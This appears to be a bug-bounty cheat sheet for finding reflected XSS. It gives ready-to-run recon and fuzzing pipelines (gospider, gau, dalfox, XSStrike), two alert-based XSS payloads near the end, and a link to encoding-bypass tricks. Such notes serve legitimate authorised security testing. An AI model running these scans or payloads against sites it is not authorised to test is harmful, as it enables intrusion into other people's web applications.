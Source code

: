 # ❌ xss

### Get Parameter as much as possible

1. https://github.com/devanshbatham/ParamSpider
2. gospider -S tageturls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'|grep "=" | qsreplace -a | dalfox pipe -o result.txt
3. Waybackurls | gau
4. https://github.com/s0md3v/Arjun
5. https://github.com/hakluke/hakrawler
6. https://github.com/PortSwigger/param-miner

Combine all in a file and remove duplicates.

### Run XSS fuzzer

1. https://github.com/s0md3v/XSStrike
2. https://github.com/hahwul/dalfox

Resources:

* https://blog.yeswehack.com/yeswerhackers/parameter-discovery-quick-guide-to-start/
* https://infosecwriteups.com/tale-of-my-first-xss-27f622bc47c0

***

### dalfox usage:

```
gf xss domain.txt | grep -Eo 'https?://[^\"]+' > domain.txt
dalfox file domain.txt -w 20 --silence
```

***

### another technique to find XSS

* Scrape all urls from the domain using gau
* then sort the result using grep command: `cat url.txt | grep “utm_”`
* do testing

resources:

* https://santoshdbobade.medium.com/how-i-got-reflected-cross-site-scripting-rxss-on-manchester-metropolitan-university-700b36cb4f53

***

### Custom useful XSS Attack Vectors

```
testing"><img/src=x onerror=alert(/XSS/)//
testing'-alert(2)-'xss
```

Encoding Bypass:

[https://d3adend.org/xss/ghettoBypass](https://d3adend.org/xss/ghettoBypass)

